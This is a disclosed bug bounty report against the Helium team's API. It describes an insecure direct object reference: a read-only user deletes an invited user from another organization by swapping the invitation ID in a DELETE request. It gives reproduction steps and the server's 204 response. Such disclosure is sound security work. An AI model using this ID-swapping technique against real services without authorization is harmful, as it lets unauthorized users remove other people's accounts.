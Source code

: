 # Read-Only user can delete users

## Report Details
- **Report ID**: 888729
- **URL**: https://hackerone.com/reports/888729
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-06-01T19:08:51.888Z
- **Disclosed**: 2020-07-10T18:30:21.337Z

## Reporter
- **Username**: amr_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: helium

## Vulnerability Information
hello 
this endpoint (DELETE /api/invitations/0ff7e9f9-877a-40cc-b99f-f6b3b1bea3f8 )vulnerable  to Insecure Direct Object Reference
Steps to reproduce the bug
Let's assume that three accounts exist:
admin@helium.com        (role Administrator)
attacker@helium.com   (role Read-Only)
victim@helium.com        (invited user )
all three account in same organization (h1)
attacker@helium.com cant delete victim@helium.com but we can do that 
from admin@helium.com go to delete victim@helium.com 
request like that DELETE /api/invitations/0ff7e9f9-877a-40cc-b99f-f6b3b1bea3f8
take id victim@helium.com 0ff7e9f9-877a-40cc-b99f-f6b3b1bea3f8
go to attacker@helium.com switch another organization (h2)
and go to delete invited user from this organization(h2)
DELETE /api/invitations/a996881d-7177-43fb-be7c-da3a6b005f40
change id (a996881d-7177-43fb-be7c-da3a6b005f40) to id you got from admin@helium.com(0ff7e9f9-877a-40cc-b99f-f6b3b1bea3f8)
respond 
HTTP/1.1 204 No Content
Date: Mon, 01 Jun 2020 18:47:43 GMT
Content-Length: 0
Connection: close
Cache-Control: max-age=0, private, must-revalidate
Message: User removed from organization
Strict-Transport-Security: max-age=31536000
Via: 1.1 vegur
CF-Cache-Status: DYNAMIC
cf-request-id: 0312cf14d40000edeb299e9200000001
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 59cb1ace2eeaedeb-CDG

now account victim@helium.com deleted from attacker@helium.com
i can make poc 
thanks

## Impact

Read-Only user can delete users

## Attachments
No attachments
